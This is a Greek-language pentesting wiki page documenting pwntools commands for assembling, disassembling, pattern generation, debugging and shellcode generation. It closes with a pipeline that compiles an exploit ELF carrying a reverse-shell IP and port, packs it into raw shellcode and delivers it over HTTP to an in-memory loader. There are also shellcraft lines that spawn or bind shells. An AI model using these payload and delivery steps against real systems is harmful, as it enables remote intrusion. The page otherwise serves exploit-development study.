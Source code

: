 # PwnTools

{{#include ../../../banners/hacktricks-training.md}}
```
pip3 install pwntools
```
## Pwn asm

Λήψη **opcodes** από γραμμή ή αρχείο.
```
pwn asm "jmp esp"
pwn asm -i <filepath>
```
**Μπορείτε να επιλέξετε:**

- τύπος εξόδου (raw,hex,string,elf)
- πλαίσιο αρχείου εξόδου (16,32,64,linux,windows...)
- αποφυγή bytes (new lines, null, a list)
- επιλέξτε encoder/debug shellcode — χρησιμοποιήστε gdb για να τρέξετε την έξοδο

## **Pwn checksec**

Σενάριο Checksec
```
pwn checksec <executable>
```
## Pwn constgrep

## Pwn cyclic

Πάρε ένα μοτίβο
```
pwn cyclic 3000
pwn cyclic -l faad
```
**Μπορεί να επιλέξει:**

- Το χρησιμοποιούμενο αλφάβητο (πεζά χαρακτήρες από προεπιλογή)
- Μήκος του μοναδικού μοτίβου (προεπιλογή 4)
- context (16,32,64,linux,windows...)
- Λήψη του offset (-l)

## Pwn debug

Επισυνάψτε το GDB σε μια διεργασία
```
pwn debug --exec /bin/bash
pwn debug --pid 1234
pwn debug --process bash
```
**Μπορεί να επιλέξει:**

- Κατά εκτελέσιμο, κατά όνομα ή κατά pid context (16,32,64,linux,windows...)
- gdbscript για εκτέλεση
- sysrootpath

## Pwn disablenx

Απενεργοποιεί το nx ενός binary
```
pwn disablenx <filepath>
```
## Pwn disasm

Αποσυναρμολόγηση hex opcodes
```
pwn disasm ffe4
```
**Μπορεί να επιλέξει:**

- context (16,32,64,linux,windows...)
- base addres
- color(default)/no color

## Pwn elfdiff

Εκτυπώνει τις διαφορές μεταξύ 2 αρχείων
```
pwn elfdiff <file1> <file2>
```
## Pwn hex

Λάβετε δεκαεξαδική αναπαράσταση
```bash
pwn hex hola #Get hex of "hola" ascii
```
## Pwn phd

Λάβετε hexdump
```
pwn phd <file>
```
**Μπορεί να επιλέξει:**

- Αριθμός bytes προς εμφάνιση
- Αριθμός bytes ανά γραμμή (highlight byte)
- Παράλειψη bytes στην αρχή

## Pwn pwnstrip

## Pwn scrable

## Pwn shellcraft

Λάβετε shellcodes
```
pwn shellcraft -l #List shellcodes
pwn shellcraft -l amd #Shellcode with amd in the name
pwn shellcraft -f hex amd64.linux.sh #Create in C and run
pwn shellcraft -r amd64.linux.sh #Run to test. Get shell
pwn shellcraft .r amd64.linux.bindsh 9095 #Bind SH to port
```
**Μπορεί να επιλέξει:**

- shellcode και παραμέτρους για το shellcode
- Αρχείο εξόδου
- μορφή εξόδου
- debug (attach dbg to shellcode)
- πριν (debug trap πριν από το code)
- μετά
- αποφύγετε τη χρήση opcodes (προεπιλογή: όχι null και new line)
- Εκτέλεση του shellcode
- Χρώμα/χωρίς χρώμα
- λίστα syscalls
- λίστα πιθανών shellcodes
- Δημιουργία ELF ως shared library

## Pwn template

Λάβετε ένα python template
```
pwn template
```
**Μπορεί να επιλέξει:** host, port, user, pass, path και quiet

## Pwn unhex

Από hex σε string
```
pwn unhex 686f6c61
```
## Ενημέρωση Pwn

Για να ενημερώσετε το pwntools
```
pwn update
```
## ELF → raw shellcode πακετάρισμα (loader_append)

Το Pwntools μπορεί να μετατρέψει ένα standalone ELF σε ένα ενιαίο raw shellcode blob που self‑maps τα segments του και μεταφέρει την εκτέλεση στο αρχικό entrypoint. Αυτό είναι ιδανικό για memory‑only loaders (π.χ., Android apps που καλούν JNI για να εκτελέσουν τα κατεβασμένα bytes).

Τυπικό pipeline (amd64 example)

1) Κατασκευάστε ένα static, position‑independent payload ELF (musl recommended for portability):
```bash
musl-gcc -O3 -s -static -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
2) Μετατρέψτε ELF → shellcode με pwntools:
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
sc = asm(shellcraft.loader_append(elf.data, arch='amd64'))
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)} bytes, shellcode size={len(sc)} bytes")
```
3) Παραδώστε το sc σε έναν memory loader (π.χ. μέσω HTTP[S]) και εκτελέστε in‑process.

Σημειώσεις
- loader_append ενσωματώνει το αρχικό πρόγραμμα ELF μέσα στο shellcode και παράγει έναν μικρό loader που mmaps τα segments και μεταβαίνει στο σημείο εισόδου.
- Να είστε σαφείς ως προς την αρχιτεκτονική μέσω του context.clear(arch=...). arm64 είναι κοινό σε Android.
- Κρατήστε τον κώδικα του payload ανεξάρτητο ως προς τη θέση και αποφύγετε υποθέσεις σχετικά με το ASLR/NX της διεργασίας.

## Αναφορές

- [Pwntools](https://docs.pwntools.com/en/stable/)
- [CoRPhone – ELF→shellcode pipeline used for Android in-memory execution](https://github.com/0xdevil/corphone)

{{#include ../../../banners/hacktricks-training.md}}
